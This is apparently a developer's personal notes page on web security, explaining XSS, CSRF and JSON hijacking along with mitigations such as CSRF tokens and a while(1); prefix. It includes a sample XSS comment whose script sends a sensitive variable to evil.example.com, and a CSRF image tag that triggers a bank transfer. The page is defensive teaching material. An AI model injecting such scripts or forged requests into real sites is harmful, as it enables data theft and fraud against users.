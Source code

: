 ```yaml
---
layout: page
title: Web Security Notes
---
```


This is my own reference for any security-related advice I find I must keep in
mind when writing web-facing web apps and services.

[This page's source is visible on
GitHub](https://github.com/jennings/jennings.github.io). If I screwed up, send
a pull request and I'll fix it up.


## Protect against XSS

[Cross-Site Scripting](http://en.wikipedia.org/wiki/Cross-site_scripting)
refers to an attacker convincing a vulnerable website to send malicious
JavaScript to a victim. For example, if a comment system allows HTML, an
attacker can submit the following comment:

    This is an evil comment.
    <script>
        jQuery.ajax({
            url: "http://evil.example.com",
            data: someSensitiveVariable
        });
    </script>

Any victim who loads the page containing this comment will send
`someSensitiveVariable` to `evil.example.com`.


## Protect against CSRF

[Cross-Site Request
Forgery](http://en.wikipedia.org/wiki/Cross-site_request_forgery) is when a
malicious site convinces the victim's browser to make a request that performs
some action.

For example, if a bank transaction can be accomplished by making a GET request,
the following image element on a malicious page will do so:

    <img src="https://bank.example.com/api/transfer?to=evilaccount&amount=1000.00">

To protect against this:

* Include authentication tokens with each transaction request (if the attacker has
  access to the authentication token, they are already effectively logged in as that
  user).
* Require a secret, user-specific token with any request that has a side-effect
  (for example, a hidden form field). An attacker will not be able to acquire
  this token.


## Protect against JSON hijacking

When server-side code is returning a JavaScript array, include a `while(1);` at the
beginning of the request:

    Request:
    GET /api/posts

    Response:
    while(1);[{"id":1},{"id":2}]

This protects against third parties adding a `<script>` tag to their own pages
and executing the result. [Phil Haack describes the exploit
here](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/).

Same-origin code can see the textual content of the request and strip the
leading `while(1);`.
